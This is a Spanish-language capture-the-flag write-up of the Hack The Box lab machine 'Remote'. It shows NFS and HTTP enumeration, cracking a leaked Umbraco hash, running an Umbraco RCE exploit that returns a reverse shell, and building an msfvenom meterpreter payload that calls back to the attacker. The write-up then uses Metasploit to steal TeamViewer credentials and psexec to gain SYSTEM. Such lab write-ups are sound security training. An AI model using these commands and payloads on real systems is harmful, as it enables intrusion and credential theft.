

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Remote Writeup | Easy"
date = "2024-11-29"
description = ""
tags = [
    "HackTheBox",
    "Remote",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "HTTP Enumeration",
    "NFS Enumeration",
    "Information Disclosure",
    "Exposed User Credentials",
    "Hash Cracking",
    "Cracking",
    "CVE-2019-25137",
    "TeamViewer 7 Passwords",
    "Credentials Reuse"
]

+++

# Hack The Box: Remote Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Remote"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.129.230.172 --ulimit 5000 -g
10.129.230.172 -> [21,80,111,135,139,445,2049,5985,47001,49664,49665,49667,49666,49678,49679,49680]
```

```console
nmap -p21,80,111,135,139,445,2049,5985,47001,49664,49665,49667,49666,49678,49679,49680 -sCV 10.129.230.172 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 14:53 CET
Nmap scan report for 10.129.230.172
Host is up (0.038s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-11-29T14:54:13
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: 1h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.21 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.230.172 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 14:54 CET
Nmap scan report for 10.129.230.172
Host is up (0.039s latency).
Not shown: 1496 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
111/udp   open   rpcbind
2049/udp  open   nfs
18582/udp closed unknown
26171/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds
```

# FTP Enumeration
Vamos a empezar por los puertos mas bajos, y como según `nmap` se permite un inicio de sesión anónimo vamos a ver si encontramos algo interesante.

No encontramos nada..
```console
ftp anonymous@10.129.230.172
Connected to 10.129.230.172.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49685|)
150 Opening ASCII mode data connection.
226 Transfer complete.
```

# HTTP Enumeration
Vamos a enumerar el servicio HTTP, `whatweb` no nos reporta nada interesante.
```console
whatweb http://10.129.230.172
http://10.129.230.172 [200 OK] Country[RESERVED][ZZ], HTML5, IP[10.129.230.172], JQuery[3.1.0], Script, Title[Home - Acme Widgets], Umbraco, X-UA-Compatible[IE=edge]
```

Así se ve el sitio web.


Tenemos un recurso `/people` donde tenemos posibles nombres de usuario, vamos a crear una lista con algunas variaciones básicas.


```console
cat -p users.txt
jan.skovgaard
j.skovgaard
jan.s
janskovgaard
matt.brailsford
matt.b
m.brailsford
mattbrailsford
lee.kelleher
lee.k
l.kelleher
leekelleher
jeavon.leopold
j.leopold
jeavon.l
jeavonleopold
jeroen.breuer
jeroen.b
j.breuer
jeroenbreuer
```

Después de navegar un poco, he visto que se menciona varias veces `Umbraco`, y en el apartado de contacto se nos reporta que debemos instalar `Umbraco Forms`.


Podemos ver que `Umbraco` es un CMS


También vemos que la versión `7.12.4` tiene una vulnerabilidad de tipo RCE pero necesitamos estar autenticados.


Desde el formulario que hemos encontrado antes, nos redirecciona al panel de inicio de sesión, obviamente no tengo credenciales.


# SMB Enumeration
No encontramos nada por SMB ya que no se admiten las sesiones de invitados (null sessions)
```console
➜  content smbmap -H 10.129.230.172 -u '' --no-banner
[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)
➜  content smbclient -L \\10.129.230.172 -U '' -N
session setup failed: NT_STATUS_ACCESS_DENIED
```

Tampoco podemos enumerar el RPC ya que necesitamos credenciales también.
```console
sudo ./rpcenum -e All -i 10.129.230.172

[!] Error: Access Denied
```

# NFS Enumeration
Como hemos visto antes, en el escaneo UDP hemos visto que está el puerto 2049/UDP que suele corresponder a un servicio NFS, vamos a confirmar que se trata de NFS lo que está detrás de este puerto.

```console
sudo nmap -p2049 -sU -sCV 10.129.230.172
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 15:06 CET
Nmap scan report for 10.129.230.172
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
2049/udp open  nfs     2-4 (RPC #100003)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
```

Una vez confirmado, vamos a intentar montar este NFS en nuestra máquina de atacante y con suerte no necesitamos autenticación.

```console
➜  content sudo mkdir /mnt/montura
➜  content sudo mount -t nfs 10.129.230.172:/ /mnt/montura -o nolock
➜  content ls -la /mnt/montura
total 4
drwxrwxrwx 2 nobody nogroup   64 Nov 29  2024 .
drwxr-xr-x 3 root   root    4096 Nov 29 15:07 ..
drwx------ 2 nobody nogroup 4096 Feb 23  2020 site_backups
```

Una vez montado, vamos a enumerar que se encuentra en el NFS.

## Information Disclosure + Hash Cracking
Encontré en [este foro](https://our.umbraco.com/forum/getting-started/installing-umbraco/35554-Where-does-Umbraco-store-usernames-and-passwords) que existe un archivo llamado `Umbraco.sdf` que contiene una versión de la base de datos por lo cual quizás contenga credenciales de acceso.

Filtrando por el usuario `admin` ya que hay varios, vemos lo que parece un hash SHA-1


Podemos intentar crackear este hash con `john` y lo conseguimos.
```console
john -w=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)
1g 0:00:00:00 DONE (2024-11-29 15:18) 1.041g/s 10233Kp/s 10233Kc/s 10233KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

## ## CVE-2019-25137 (Remote Command Execution)
Igualmente, no podía iniciar sesión, eso es porque el usuario es `admin@htb.local` y no `admin`
```text
admin@htb.local:baconandcheese
```


Ahora sí que podemos iniciar sesión, antes de nada me interesa saber la versión del CMS para ver si podemos explotar el RCE que hemos visto que existe.


Y vemos que es la versión vulnerable.


Vamos a clonarnos [este repositorio](https://github.com/Jonoans/Umbraco-RCE) y vamos a probar si funciona. 

Por alguna razón, al explotarlo no veía el output de los comandos, por lo cual vamos a modificar el PoC eliminando estas líneas.


Ahora si nos ponemos en escucha por el puerto 4444 con `netcat`
```console
rlwrap -cEr nc -lvnp 4444
listening on [any] 4444 ...
```

Y lanzamos el exploit, tenemos una excepción pero es normal ya que intenta buscar una parte del código que hemos borrado.
```console
python3 exploit.py -u admin@htb.local -p baconandcheese -w 'http://10.129.230.172' -i 10.10.14.87
[*] Logging in at http://10.129.230.172/umbraco/backoffice/UmbracoApi/Authentication/PostLogin
[*] Exploiting at http://10.129.230.172/umbraco/developer/Xslt/xsltVisualize.aspx
Traceback (most recent call last):
  File "/home/kali/Desktop/remote/content/Umbraco-RCE/exploit.py", line 91, in <module>
    main()
  File "/home/kali/Desktop/remote/content/Umbraco-RCE/exploit.py", line 69, in main
    initial.wait_for_connection()
    ^^^^^^^
NameError: name 'initial' is not defined
```

Pero recibimos la conexión y conseguimos una consola en la máquina víctima.
```console
rlwrap -cEr nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.87] from (UNKNOWN) [10.129.230.172] 49697
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
whoami
PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```

Podemos leer la flag de usuario que se encuentra en `C:\Users\Public\Desktop`
```console
PS C:\USers\Public\Desktop> dir
    Directory: C:\USers\Public\Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/20/2020   2:14 AM           1191 TeamViewer 7.lnk
-ar---       11/29/2024   9:50 AM             34 user.txt
type user.txt
PS C:\USers\Public\Desktop> type user.txt
9b96ef964cb7e1c5...
```

Y también vemos un acceso directo a `TeamViewer 7`, no es común ver este programa instalado en CTF's...

# Privilege Escalation
Podemos ver que efectivamente, `TeamViewer` está instalado en el sistema.
```console
PS C:\Program Files (x86)> dir
    Directory: C:\Program Files (x86)
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/15/2018   3:28 AM                Common Files
d-----        9/15/2018   5:06 AM                Internet Explorer
d-----        2/23/2020   2:19 PM                Microsoft SQL Server
d-----        2/23/2020   2:15 PM                Microsoft.NET
d-----        2/19/2020   3:11 PM                MSBuild
d-----        2/19/2020   3:11 PM                Reference Assemblies
d-----        2/20/2020   2:14 AM                TeamViewer
d-----        9/15/2018   5:05 AM                Windows Defender
d-----        9/15/2018   3:19 AM                Windows Mail
d-----       10/29/2018   6:39 PM                Windows Media Player
d-----        9/15/2018   3:19 AM                Windows Multimedia Platform
d-----        9/15/2018   3:28 AM                windows nt
d-----       10/29/2018   6:39 PM                Windows Photo Viewer
d-----        9/15/2018   3:19 AM                Windows Portable Devices
d-----        9/15/2018   3:19 AM                WindowsPowerShell
```

Encontré que hay [un módulo de metasploit](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md) donde es posible que en las versiones de TeamViewer 7+ es posible conseguir las credenciales guardadas en TeamViewer.

Así que primero vamos a conseguir una sesión de metasploit en la máquina víctima.

Vemos que la máquina víctima es de 64 bits.
```console
PS C:\windows\system32\inetsrv> systeminfo
Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-00521-62775-AA801
Original Install Date:     2/19/2020, 3:03:29 PM
System Boot Time:          11/29/2024, 9:49:38 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
```

Generamos la reverse shell con `msfvenom`
```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.87 LPORT=443 -f exe > pwn.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Compartimos este ejecutable mediante SMB con `impacket-smbserver`
```console
sudo impacket-smbserver -smb2support smbFolder .
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

En la máquina víctima, he creado el directorio `C:\Windows\Temp\work` y vamos a copiarlo aquí.
```console
PS C:\windows\temp\work> copy \\10.10.14.87\smbFolder\pwn.exe .
dir
PS C:\windows\temp\work> dir
    Directory: C:\windows\temp\work
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/29/2024   9:33 AM           1148 manual_exploit.bat
-a----       11/29/2024   9:39 AM          73802 pwn.exe
```

Preparamos `msfconsole` y nos ponemos en escucha por el puerto 443.
```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.87:443
```

Ahora en la máquina víctima simplemente ejecutamos nuestra reverse shell.
```console
PS C:\windows\temp\work> .\pwn.exe
```

Y en `metasploit` vemos que tenemos una nueva sesión abierta.
```console
[*] Meterpreter session 1 opened (10.10.14.87:443 -> 10.129.230.172:49713) at 2024-11-29 15:42:40 +0100
```

Ahora si ejecutamos el módulo `post/windows/gather/credentials/teamviewer_passwords` vemos que encontramos una credencial.
`!R3m0te!`

No se para que usuario podría ser esta credencial, y al revisar los usuarios del sistema vemos que no existe ninguno.
```console
PS C:\windows\system32\inetsrv> net users
User accounts for \\
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount
```

Con `netexec` podemos comprobar si esta es la contraseña del usuario administrador y vemos que si.
```console
nxc smb 10.129.230.172 -u administrator -p '!R3m0te!'
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [+] remote\administrator:!R3m0te! (Pwn3d!)
```

Y ya con `psexec` podemos conseguir una consola como `nt authority\system` con máximos privilegios.
```console
psexec.py -target-ip 10.129.230.172 administrator:'!R3m0te!'@10.129.230.172
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.230.172.....
[*] Found writable share ADMIN$
[*] Uploading file wdIbFZtd.exe
[*] Opening SVCManager on 10.129.230.172.....
[*] Creating service gzMd on 10.129.230.172.....
[*] Starting service gzMd.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Podemos leer la flag de `root`
```console
c:\Users\Administrator\Desktop> type root.txt
0d5f3e3b6dd3bca...
```

¡Y ya estaría!

Happy Hacking! 🚀